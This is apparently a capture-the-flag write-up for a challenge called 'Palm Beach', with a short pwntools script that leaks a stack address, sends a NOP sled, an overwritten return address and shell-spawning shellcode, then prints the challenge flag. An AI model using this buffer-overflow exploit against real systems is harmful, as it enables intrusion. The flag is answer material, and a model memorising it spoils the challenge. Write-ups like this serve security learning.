 # Palm Beach

Solved by: @CapangJabba

## Question:
Get your tan on


## Solution:
```
io.recvuntil(b'Speed limit: ')
stack = int(io.recv().strip(),16)


info(f'stack address: {hex(stack)}')


payload = b'\x90'*168+ p64(stack+176) + asm(shellcraft.sh())

io.sendline(payload)
io.interactive()
```

**Flag:** `sun{I should probably wash my window, that polar bear looks like a duck.}`

